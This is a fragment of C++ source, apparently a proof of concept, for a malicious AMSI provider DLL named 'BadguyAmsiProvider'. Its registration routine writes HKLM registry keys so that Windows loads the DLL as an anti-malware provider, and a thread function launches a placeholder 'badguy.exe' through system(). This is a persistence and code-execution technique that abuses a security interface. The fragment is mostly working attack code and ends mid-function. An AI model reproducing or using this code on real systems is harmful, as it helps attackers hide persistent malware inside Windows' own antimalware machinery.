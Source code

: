 ```C++
}

CoCreatableClass(BadguyAmsiProvider);

DWORD WINAPI MyThreadFunction(LPVOID lpParam)
{
	system("c:\\path\\to\\badguy.exe");

	return 0;
}


#pragma region Install / uninstall

HRESULT SetKeyStringValue(_In_ HKEY key, _In_opt_ PCWSTR subkey, _In_opt_ PCWSTR valueName, _In_ PCWSTR stringValue)
{
	LONG status = RegSetKeyValue(key, subkey, valueName, REG_SZ, stringValue, (wcslen(stringValue) + 1) * sizeof(wchar_t));
	return HRESULT_FROM_WIN32(status);
}

STDAPI DllRegisterServer()
{
	wchar_t modulePath[MAX_PATH];
	if (GetModuleFileName(g_currentModule, modulePath, ARRAYSIZE(modulePath)) >= ARRAYSIZE(modulePath))
	{
		return E_UNEXPECTED;
	}

	wchar_t clsidString[40];
	if (StringFromGUID2(__uuidof(BadguyAmsiProvider), clsidString, ARRAYSIZE(clsidString)) == 0)
	{
		return E_UNEXPECTED;
	}

	wchar_t keyPath[200];
	HRESULT hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Classes\\CLSID\\%ls", clsidString);
	if (FAILED(hr)) return hr;

	hr = SetKeyStringValue(HKEY_LOCAL_MACHINE, keyPath, nullptr, L"BadguyAmsiProvider");
	if (FAILED(hr)) return hr;

	hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Classes\\CLSID\\%ls\\InProcServer32", clsidString);
	if (FAILED(hr)) return hr;

	hr = SetKeyStringValue(HKEY_LOCAL_MACHINE, keyPath, nullptr, modulePath);
	if (FAILED(hr)) return hr;

	hr = SetKeyStringValue(HKEY_LOCAL_MACHINE, keyPath, L"ThreadingModel", L"Both");
	if (FAILED(hr)) return hr;

	// Register this CLSID as an anti-malware provider.
	hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Microsoft\\AMSI\\Providers\\%ls", clsidString);
	if (FAILED(hr)) return hr;

	hr = SetKeyStringValue(HKEY_LOCAL_MACHINE, keyPath, nullptr, L"BadguyAmsiProvider");
	if (FAILED(hr)) return hr;

```